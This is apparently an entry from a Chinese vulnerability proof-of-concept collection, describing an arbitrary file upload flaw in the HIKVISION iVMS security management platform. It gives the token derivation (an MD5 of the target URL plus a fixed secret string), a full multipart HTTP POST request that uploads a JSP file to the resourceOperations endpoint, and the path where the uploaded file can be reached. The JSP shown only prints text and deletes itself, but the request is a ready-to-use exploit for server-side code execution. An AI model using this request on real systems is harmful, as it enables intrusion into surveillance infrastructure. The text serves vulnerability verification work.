 ﻿# HIKVISION iVMS综合安防管理平台 resourceOperations 任意文件上传

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：若目标为http://www.example.com/，则Token为MD5(http://www.example.com/eps/api/resourceOperations/uploadsecretKeyIbuilding)，即Token=54590E37F79DF000549B9FAA536D23B3
成功上传文件后，会显示resourceUuid的值，拼接URL即可访问上传的文件；http://xxx.xxx.xxx.xxx/eps/upload/{resourceUuid值}.jsp

> 漏洞特征：

> 验证脚本：HTTP

```
POST /eps/api/resourceOperations/upload?token=Token HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Accept-Encoding: gzip, deflate
Connection: close

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader"; filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello world");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：HIKVISION iVMS综合安防管理平台 resourceOperations 任意文件上传.poc
